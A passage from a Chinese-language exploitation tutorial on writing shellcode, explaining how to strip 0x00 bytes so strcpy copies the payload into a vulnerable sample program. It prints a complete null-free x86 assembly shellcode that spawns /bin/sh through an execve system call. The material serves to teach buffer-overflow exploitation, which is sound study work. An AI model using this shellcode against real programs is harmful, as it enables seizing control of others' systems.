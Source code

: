 shellcode执行成功。

> 只要将这段机器码嵌入目标程序，并设法让其执行，就能够夺取系统的控制权

####对0x00的改进

上面的shellcode还无法对sample3进行攻击，因为里面出现了0x00。在sample3中，复制数据时使用了strcpy函数，这个函数会用0x00来判断字符串的结尾。因此，当shellcode中间出现0x00时，strcpy就无法完整地复制shellcode地数据。

在sample6中，在对字符串/sh\0进行push地地方出现了0x00。
```
804840f:	68 2f 73 68 00   push $0x68732f
8048414:	68 2f 62 69 6e   push $0x6e69622f
```
解决该问题可以采用下面办法：
* 将/bin/sh改为/bin//sh以凑齐8个字节
* 在前面先push $0

> 尽管多一个斜杠，但该命令运行不会有问题。因此，将`/sh\0`改为`//sh`，这样就成功消除了push里的`0x00`

用xor和push相互结合的方法，向栈中放入一个0x00作为字符串结尾的标志，这样就能避免整段代码出现`0x00`

```
.globl main
main:
    xorl  %eax, %eax
    pushl %eax
    movl  %esp, %eax
    subl  $0x10, %eax
    pushl %eax  
    movl  %esp, %ebx 
    xorl  %eax, %eax  
    pushl %eax        ;push 0x00000000
    pushl $0x68732f2f ;push字符串"//sh"
    pushl $0x6e69622f ;push字符串"/bin"
    movl  %esp, %edx
    xorl  %eax, %eax
    pushl %eax
    pushl %ebx
    pushl %edx
    pushl %eax
    movb  $0x3b, %al
    int   $0x80
```
![Alt text](./1489144383415.png)

